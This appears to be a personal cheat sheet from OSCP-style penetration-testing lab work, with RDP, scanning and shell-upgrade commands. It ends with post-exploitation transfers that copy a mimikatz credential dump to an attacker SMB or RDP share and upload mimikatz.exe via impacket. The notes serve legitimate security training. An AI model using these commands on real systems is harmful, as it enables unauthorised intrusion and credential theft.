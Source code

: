 Keep the script for future references 

1. Get new ip address
```
kali - dhclient

windows - ipconfig /renew
```

2. To kill busy listening port 
```
sudo lsof -i :<Port number> #list pid 
ps aux | grep smb

kill -9 <pid>
```

3. Remote connection 
```

xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS

sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS

rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS

 xfreerdp /u:USERNAME /p:PASSWORD /cert:ignore /v:IP_ADDRESS /w:2600 /h:1400

xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:IP_ADDRESS /u:USERNAME /p:PASSWORD /size:1180x708

rdesktop -z -P -x m -u USERNAME -p PASSWORD
```

4. Delete full directory. 
```
rm -r .wine/
```

5. Dependencies packages error solution
```
https://linuxsimply.com/linux-basics/package-management/dependencies/the-following-packages-have-unmet-dependencies/
```

6. File transfer cheatsheet
```
https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
```

7. Hacktricks if running out of ideas. 
```
https://book.hacktricks.xyz/
```

8. Rustscan instead of nmap
```
1. Scan open ports. 
rustscan -a 192.168.187.122 --ulimit 5000

2. Nano and paste open ports - open-ports.txt

3. List down open ports in one line with comma. 
cat open-ports.txt | cut -f1 -d '/' | tr '\n' ','

4. Or straight can scan with nmap
nmap -p$(cat open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A $ip 

5. Decrease mtu rate if needed 
ifconfig tun0 mtu 1250

```

9. Allocating IP. 
```
export ip=10.10.10.10
echo $ip
```

10. Alternative for gobuster 
```
feroxbuster -u http://$ip/
```

11. Upgrade shells to full tty
```
https://0xffsec.com/handbook/shells/full-tty/

SHELL=/bin/bash script -q /dev/null

python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo; fg

For windows:
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

12. Machine not working
```
Can you try to do the following to resolve your issue

disconnect from your VPN and run the command "sudo killall -w openvpn"
logout from your Portal and clear your browsers data and cache
please also run the commands below

sudo bash -c " echo nameserver 8.8.8.8 > /etc/resolv.conf"
sudo bash -c " echo nameserver 8.8.4.4 >> /etc/resolv.conf"
sudo chattr +i /etc/resolv.conf

download a new VPN pack (make sure that you are on your Course Page and not on the Main Page) and make sure to delete all the old VPN's

Once done, please try to reconnect to your VPN and see how it goes.
```


1) SMB: On Kali:

`impacket-smbserver test . -smb2support  -username kourosh -password kourosh`

On Windows:

`net use m: \\Kali_IP\test /user:kourosh kourosh copy mimikatz.log m:\`

2) RDP mounting shared folder:

- Using xfreerdp:

On Kali:

`xfreerdp /cert-ignore /compression /auto-reconnect /u: offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen- 200`

On windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`


- Using rdesktop:

On Kali:

`rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200`

On Windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`

3) Impacket tools: psexec and wmiexec are shipped with built in feature for file transfer. **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path. Uploading mimikatz.exe to the target machine:

`C:\Windows\system32> lput mimikatz.exe [*] Uploading mimikatz.exe to ADMIN$\/ C:\Windows\system32> cd C:\windows C:\Windows> dir /b mimikatz.exe mimikatz.exe`

Downloading mimikatz.log:

`C:\Windows> lget mimikatz.log [*] Downloading ADMIN$\mimikatz.log`


### Remove empty lines form a file using cut. 
```bash
sed -z '$ s/\n$//'
```

